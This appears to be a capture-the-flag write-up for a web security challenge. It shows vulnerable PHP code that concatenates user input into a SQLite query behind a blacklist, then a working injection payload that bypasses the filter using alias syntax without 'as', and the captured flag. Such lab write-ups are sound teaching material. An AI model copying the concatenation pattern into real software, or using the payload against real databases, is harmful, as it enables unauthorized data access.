 Source is given
```
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

function sanitize($id, $table) {
    /* Rock-solid: https://secure.php.net/manual/en/function.is-numeric.php */
    if (! is_numeric ($id) or $id < 2) {
        exit("The id must be numeric, and superior to one.");
    }

    /* Rock-solid too! */
    $special1 = ["!", "\"", "#", "$", "%", "&", "'", "*", "+", "-"];
    $special2 = [".", "/", ":", ";", "<", "=", ">", "?", "@", "[", "\\", "]"];
    $special3 = ["^", "_", "`", "{", "|", "}"];
    $sql = ["union", "0", "join", "as"];
    $blacklist = array_merge ($special1, $special2, $special3, $sql);
    foreach ($blacklist as $value) {
        if (stripos($table, $value) !== false)
            exit("Presence of '" . $value . "' detected: abort, abort, abort!\n");
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id']) && isset ($_POST['table'])) {
    $id = $_POST['user_id'];
    $table = $_POST['table'];

    sanitize($id, $table);

    $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
    $query = 'SELECT id,username FROM ' . $table . ' WHERE id = ' . $id;
    //$query = 'SELECT id,username,enemy FROM ' . $table . ' WHERE id = ' . $id;

    $getUsers = $pdo->query($query);
    $users = $getUsers->fetchArray(SQLITE3_ASSOC);

    $userDetails = false;
    if ($users) {
        $userDetails = $users;
    $userDetails['table'] = htmlentities($table);
    }
}
?>
```
+ Tried a lot of sqlite injection payloads but as there is a lot of blacklists, most of the payloads gives out error.
+ So, we need to find the flag from the database and there is a clue given here in the comments of the above source code.
+ $query = 'SELECT id,username,enemy FROM ' . $table . ' WHERE id = ' . $id;
+ so, we know that alias in sqlite is written using `as`. but that keyword is also blacklisted. but in sqlite `as` keyword is not necessary to use an alias along with the column name it can also be written as follows:
"column_name as alias_name" == "column_name alias_name"
+ Although as is filtered out, in sqlite the new column name can just be put next to the original name, and it will be set as an alias, so the following would work.
+ SELECT id,username FROM (SELECT 2 id,enemy username FROM costume) WHERE id = 2
+ So intercepting the request in burp suite, the payload looks like this:
payload: user_id=2&table=(select 2 id, enemy username from costume)&submit=Submit+Query
Flag: WEBSEC{Who_needs_AS_anyway_when_you_have_sqlite}
